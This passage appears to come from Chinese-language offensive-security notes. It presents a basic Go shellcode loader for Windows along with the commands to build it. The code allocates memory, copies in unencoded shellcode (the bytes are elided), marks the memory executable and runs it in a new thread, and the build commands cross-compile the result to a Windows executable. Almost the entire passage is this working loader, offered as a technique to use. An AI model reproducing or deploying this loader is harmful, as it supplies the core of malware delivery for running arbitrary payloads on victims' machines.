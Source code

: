 这是一种最基础的执行方式，Shellcode 没有编码、加密

```plain
cat loader1.go 
package main

import (
        "unsafe"
        "golang.org/x/sys/windows"
)

var (
        kernel32      = windows.NewLazySystemDLL("kernel32.dll")
        rtlCopyMemory = kernel32.NewProc("RtlCopyMemory")
        createThread  = kernel32.NewProc("CreateThread")
)

func main() {
        shellcode := []byte{0xfc, ...[snip]..., 0x00}
        shellcodeExec, _ := windows.VirtualAlloc(
                uintptr(0),
                uintptr(len(shellcode)),
                windows.MEM_COMMIT|windows.MEM_RESERVE,
                windows.PAGE_READWRITE)

        rtlCopyMemory.Call(
                shellcodeExec,
                (uintptr)(unsafe.Pointer(&shellcode[0])),
                uintptr(len(shellcode)))

        var oldProtect uint32
        windows.VirtualProtect(
                shellcodeExec,
                uintptr(len(shellcode)),
                windows.PAGE_EXECUTE_READ,
                &oldProtect)

        hThread, _, _ := createThread.Call(
                0,
                0,
                shellcodeExec,
                uintptr(0),
                0,
                0)

        windows.WaitForSingleObject(
                windows.Handle(hThread),
                windows.INFINITE)

}

go mod init loader1

go mod tidy        

CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build
```
